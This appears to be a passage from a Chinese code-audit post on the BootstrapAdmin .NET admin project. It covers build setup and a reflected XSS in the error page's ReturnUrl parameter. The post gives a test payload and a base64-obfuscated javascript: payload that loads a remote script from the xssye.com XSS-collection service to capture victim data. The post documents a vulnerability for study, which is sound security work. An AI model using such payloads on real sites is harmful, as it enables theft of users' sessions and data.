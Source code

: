 `BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\appsettings.Development.json`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-523360f6e376437407ad34f8ef47aa533feeb8d3.png)

重新生成后出现以下错误。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-15546e9a3dd25284494e6d94dc40fdfc5b55ebdd.png)

在Visual Studio帮助旁边的搜索栏搜索 Nuget

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-3251bb2204fea87ba74108e2b61897a6a4c397da.png)

在弹出的窗口选择`游览`，搜索Mysql，下载安装`Mysql.Data 8.029`这个版本。  
因为最新版本不支持.Net5.0。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-92f72a27c8833cf2413a9d6acf4d07552da85ea0.png)

安装完毕后重新生成启动即可。

0x04 代码审计
=========

【前台】错误返回页面存在反射型XSS（无Cookie）
---------------------------

### 漏洞利用

经典的 a 标签 href 属性XSS注入，使用简单 payload：`javascript:alert(8007)`  
点击返回首页时可以触发Script脚本。  
请求路径：`http://localhost:50852/Home/Error/404?ReturnUrl=`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-6155985a47e7cfe560cda444d6e65848d087cf5c.png)

使用 xssye.com 构造利用方式。  
`javascript:eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly94c3N5ZS5jb20vejNxVyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs='))`  
参考：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-839485308b731839fade883f19ac004219c3c7f7.png)

当我们点击返回首页时执行了我们的跨站脚本，可以在xssye.com后台中看到数据，但是没有获取到Cookie。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-7705ec10c17cc116d7ed3a71d2454151a66ce4fc.png)

Cookie都有 HttpOnly 所以获取不到。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-60a9623a01fba07373b19eeaea194a0f0fcc614f.png)

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\Controllers\HomeController.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-8f5b42ff3394af5f369f0864cbb48014fbee00f8.png)
